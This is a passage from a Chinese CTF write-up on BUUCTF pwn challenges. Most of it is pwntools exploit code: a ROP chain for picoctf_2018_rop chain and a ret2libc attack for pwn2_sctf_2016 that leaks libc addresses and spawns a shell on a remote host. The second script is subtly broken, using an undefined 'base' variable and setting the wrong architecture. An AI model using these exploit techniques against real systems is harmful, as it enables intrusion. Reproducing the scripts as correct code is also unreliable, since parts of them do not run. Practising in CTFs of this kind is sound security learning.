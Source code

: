 这道题远程直接`cat flag`不能用，先`find -name "flag"`找到flag放在了`./home/babyrop2/flag`里，再`cat`

## 28 picoctf_2018_rop chain

很简单的溢出、改数据，拿flag

注意里面这一句

```
if (win1 && win2 && a1 == -559039827)
```

是`win1和win2`,`a1和-559039827`,得到的结果再`&&`

```python
from pwn import *
#p = process('./pwn')
p = remote('node5.buuoj.cn',26736)
win1_addr = 0x80485CB
win2_addr = 0x80485D8
flag = 0x804862B
pop_ebp = 0x80485d6
payload = b'a'*0x18+b'b'*0x4+p32(win1_addr)+p32(win2_addr)+p32(flag)+p32(0xBAAAAAAD)+p32
(0xDEADBAAD)
# 先返回到win1使得win1 = 1
# 然后返回win2，因为要与ebp+8比较，所以中间先加一个flag_addr
# 比较好了直接返回到flag_addr
# 然后与ebp+8进行比较，正好夹了一个0xBAAAAAAD
p.sendline(payload)
p.interactive()
```

## 29 pwn2_sctf_2016

先输入一个负值就可以溢出了，跟正常***libc***没区别，~~就是我的LibcSearcher没找到对应的libc，看网上师傅的博客有说选13，但是我的只显示到9~~

*破案了，LibcSearcher会随机roll，看运气(有点过于艺术了)*

*roll了半个小时，靶机都过期了，算了，本地过了就行了，本地选5*

```python
from pwn import *
from LibcSearcher import *
from time import sleep
context(os='linux', arch='arm64', log_level='debug')
r = remote("node5.buuoj.cn",26858)
elf = ELF('./pwn')
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']
start_addr = elf.sym['main']
r.recvuntil('read?')
r.sendline('-1')
r.recvuntil("data!\n")
payload = b'a' * (0x2c+4) + p32(printf_plt) + p32(start_addr) + p32(printf_got)
r.sendline(payload)
r.recvuntil('\n')
printf_addr=u32(r.recv(4))
libc = LibcSearcher('printf',printf_addr)

libc_base = printf_addr-libc.dump('printf')
system_addr = base+libc.dump('system')
bin_sh = base + libc.dump('str_bin_sh')
r.recvuntil('read?')
r.sendline('-1')
r.recvuntil("data!\n")
payload = b'a'*(0x2c+4)+p32(system_addr)+p32(start_addr)+p32(bin_sh)
r.sendline(payload)
```